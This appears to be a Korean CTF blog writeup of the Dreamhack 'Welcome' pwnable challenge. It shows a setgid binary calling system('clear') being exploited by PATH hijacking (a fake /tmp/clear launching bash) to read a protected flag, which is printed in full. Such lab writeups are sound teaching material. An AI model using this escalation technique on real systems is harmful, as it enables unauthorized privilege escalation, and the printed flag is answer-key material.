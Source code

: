 ```yaml
---
title: "[Dreamhack CTF Season 2 #11] Welcome writeup"
date: 2023-01-29 21:56:00 +0900
categories: [CTF, PWNABLE]
tags: [ctf]
author: R99bbit
description: exploit setuid binary
---
```


chal 바이너리의 내용은 아래와 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __asm { endbr64 }
  sub_1080(1001LL, 1001LL, 1001LL);
  sub_1090("clear");
  sub_1070("Tada~!");
  return 0;
}
```

바이너리를 실행하면 clear를 실행하고 Tada~ 문자열을 출력한 뒤 종료한다. 이제 remote에 접속해보자

```plaintext
pwn@localhost:~$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
pwn@localhost:~$ ls -al
total 48
drwxr-x--- 1 pwn  pwn    4096 Dec  7 09:06 .
drwxr-xr-x 1 root root   4096 Dec  5 04:32 ..
-rw-r--r-- 1 pwn  pwn     220 Dec  5 04:32 .bash_logout
-rw-r--r-- 1 pwn  pwn    3771 Dec  5 04:32 .bashrc
drwx------ 2 pwn  pwn    4096 Dec  7 09:06 .cache
-rw-r--r-- 1 pwn  pwn     807 Dec  5 04:32 .profile
-rwxr-sr-x 1 root pwned 16048 Dec  5 04:32 chal
-rw-r-S--- 1 root pwned    69 Dec  5 04:32 flag
pwn@localhost:~$
```

flag에 read가 막혀있으나, `chal` 에 setuid가 걸려있다. 이를 통해 chal이 하는 행위를 조작해야 하는 것을 알 수 있다.

앞서 바이너리를 본대로 chal은 `system("clear")` 와 같이 실행하므로 bash의 환경변수($PATH)의 영향을 받는다.

그러므로 임의 경로에 bash를 실행해주는 명령을 clear라는 이름으로 저장하고, 해당 경로를 환경변수에 추가해주면 플래그를 읽을 수 있다.

```plaintext
pwn@localhost:~$ ./flag
-bash: ./flag: Permission denied
pwn@localhost:~$
```

```plaintext
pwn@localhost:~$ cd /tmp/
pwn@localhost:/tmp$ echo "/bin/bash" > clear
pwn@localhost:/tmp$ chmod 777 clear
pwn@localhost:/tmp$ cat clear
/bin/bash
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$ export PATH=/tmp:$PATH
pwn@localhost:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ cd ~
pwn@localhost:~$ ./chal
pwn@localhost:~$ id
uid=1000(pwn) gid=1001(pwned) groups=1001(pwned),1000(pwn)
pwn@localhost:~$ cat flag
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
pwn@localhost:~$
```